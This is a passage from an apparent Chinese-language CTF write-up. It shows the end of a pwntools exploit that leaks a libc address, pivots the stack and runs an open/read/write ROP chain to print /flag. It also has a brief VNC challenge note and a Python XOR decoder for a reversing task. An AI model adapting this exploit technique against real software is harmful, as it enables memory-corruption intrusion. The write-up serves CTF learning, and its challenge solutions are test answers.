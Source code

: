 ```python
p.send(exp)
p.recvuntil(b'again:\n')

puts = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))  #泄露出栈地址
libc_addr = puts - libc.sym['puts']
print(hex(libc_addr))
new_stack = stack-0x128
print(hex(new_stack))

oopen = libc_addr + libc.sym['open']
write = libc_addr + libc.sym['write']
read = libc_addr + libc.sym['read']
p.sendline(b'6')
syscall = libc_addr + 0x26bf
pop_rsi = libc_addr + 0x202f8
pop_rdx = libc_addr + 0x1b92

exp = p64(pop_rdi)+p64(new_stack+0xac)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(oopen)
exp += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(0x601100)+p64(pop_rdx)+p64(0x30)+p64(read)
exp += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x601100)+p64(pop_rdx)+p64(0x30)+p64(write)
exp += p32(0) +  b'/flag\x00'
exp = exp.ljust(0x140, b'\x00')
exp += p64(new_stack-8)
exp += p64(leave)

p.send(exp)
p.interactive()
```

### 摩登 Pwn

tigervnc 连上去，输入非法值就可以获得 flag

![](https://s2.loli.net/2024/05/05/RQxP4KoGrmElwki.png)

![](https://s2.loli.net/2024/05/05/n1tYT4V9JOQl8Gx.png)

## Reverse

### xor++:

没啥好说，直接梭就行

```python
v4 = [ 
    ord("%"),ord("("),ord("$"),ord("!"),ord("<"),ord("*"),ord("<"),
    30, 20, 40, 36, 40, 41, 97, 50, 39, 63, 32, 12, 9, 32, 104, 55, 46, 4, 63, 53, 106, 17, 7, 4, 61, 14, 17, 38, 14, 26
   
]

v8=67
for i in v4:
    char=i^v8
    v8+=1
    print(chr(char),end="")
```
